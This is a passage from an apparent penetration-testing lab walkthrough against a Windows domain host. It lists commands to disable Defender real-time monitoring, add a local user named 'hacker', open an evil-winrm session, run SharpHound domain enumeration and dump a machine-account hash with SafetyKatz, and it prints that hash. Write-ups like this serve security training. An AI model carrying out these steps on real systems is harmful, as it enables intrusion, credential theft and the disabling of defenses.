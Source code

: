 First disable Windows Defender

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
```

Create a new administrator user

{% code overflow="wrap" %}
```powershell
New-LocalUser -Name "hacker" -Password (ConvertTo-SecureString "hacker" -AsPlainText -Force)
```
{% endcode %}

<figure><img src="../.gitbook/assets/Pasted image 20240313153037.png" alt=""><figcaption></figcaption></figure>

&#x20;and use them to get a more stable shell with evil-winrm

```bash
evil-winrm -i 192.168.58.22 -u hacker -p hacker
```

Now upload SharpHound.exe and use it to gain information about the domain

{% code overflow="wrap" %}
```powershell
./SharpHound.exe --collectionmethods All --outputdirectory C:\Users\Public --zipfilename loot.zip
```
{% endcode %}

<figure><img src="../.gitbook/assets/Pasted image 20240315100026.png" alt=""><figcaption></figcaption></figure>

The path to our netx target is pretty clear

&#x20;Upload SafetyKatz on the machine and use it to dump the SQL$ hash

<mark style="color:yellow;">SQL$ lm:nt = aad3b435b51404eeaad3b435b51404ee:bc97a8db7f565a18bbb3b2b4eaefb95a</mark>
